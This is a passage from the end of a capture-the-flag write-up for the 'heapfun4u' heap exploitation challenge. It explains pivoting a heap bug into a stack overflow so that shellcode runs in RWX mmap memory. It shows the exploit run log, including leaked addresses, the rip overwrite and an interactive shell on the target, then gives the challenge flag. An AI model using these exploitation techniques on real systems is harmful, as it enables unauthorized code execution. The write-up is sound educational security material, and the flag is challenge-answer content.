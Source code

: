 This means that we have transformed it into a regular stack overflow, simply by
writing at the newly allocated address 0x7fffffffe458. Since, when allocating a
new buffer, `heapfun4u` calls `mmap()` with Read|Write|Execute, we have plenty
to location to drop our shellcode and jump to it.

This completes our execution steps.

#### Pwn ! ####

Run the
[exploit code](https://gist.github.com/hugsy/892495d2299189db06517ff9a0b6249b):

```bash
~/cur/heapfun4u $ ./heapfun4u.py
[+] Connected to 172.28.128.4:3957
Attach with GDB and hit Enter
[+] rbp = 0x7ffc8c5d7ca0
[+] rsp = 0x7ffc8c5d7c40
[+] 1st allocation ok
[+] 2nd allocation ok
[+] 3rd allocation ok
[+] Leaked mmap-ed areas: 0x7f9c522fd008
[+] Free(#3) ok
[+] Free(#2) ok
[+] Overwriting pointer ok
[+] Stack pivot ok
[+] Overwriting rip ok
[+] Trigger return to 7f9c522fd008
[+] Switching to interactive...

To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

vagrant@ubuntu-wily-15:/home/vagrant$ id
id
uid=1000(vagrant) gid=1000(vagrant) groups=1000(vagrant),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),115(lpadmin),116(sambashare) vagrant@ubuntu-wily-15:/home/vagrant$
```

At that time, my teammate from TheGoonies <a class="fa fa-twitter" href="https://twitter.com/@rick2600" target="_blank"> @rick2600</a> had also read the flag file, which was:

```text
The flag is: Oh noze you pwned my h33p.
```
